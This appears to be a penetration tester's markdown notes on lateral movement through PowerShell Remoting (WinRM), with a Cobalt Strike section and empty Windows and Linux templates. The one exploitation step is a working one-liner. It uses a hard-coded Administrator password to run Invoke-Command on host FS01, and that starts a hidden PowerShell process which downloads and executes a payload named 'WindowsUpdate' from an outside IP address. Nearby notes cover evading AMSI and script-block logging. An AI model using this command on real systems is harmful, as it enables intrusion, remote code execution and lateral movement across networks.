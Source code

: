 
### Technique Overview
PowerShell Remoting uses Windows Remote Management (WinRM) to allow users to run PowerShell commands on remote computers.
- Window remoting is another popular remote administration method.

Advantage > 1 Attacker to Many Hosts = WinRM
- The benefit of Windows Remoting over RDP is that it allows to make changes at scale, instead of having to do everything manually one by one. It should come as no surprise that it is also a popular lateral movement technique for adversaries!
###### OPSEC
Keep in mind that we are using PowerShell for lateral movement in this case, and that PowerShell commands are prone to extensive security measures such as AMSI and script-block logging.
# C2 - Cobalt Strike
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

![[Pasted image 20240411234042.png]]

Let's construct our PowerShell OneLiner. We will create alternate credentials and pass those along with our Invoke-Command to execute our payload on FS01 
- Note: We got Administrator creds stored in PS file, 

```powershell
powershell $pspassword=ConvertTo-SecureString "sup3rs3cr3tP@ssw0rd!!" -AsPlainText -Force;$cred= New-Object System.Management.Automation.PSCredential("FS01\Administrator",$pspassword);Invoke-Command -ComputerName fs01 -Credential $cred -ScriptBlock {powershell.exe -nop -w hidden -c "IEX(irm -useb 'http://10.130.4.100:8888/WindowsUpdate')"}
```

![[Pasted image 20240411234257.png]]

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```
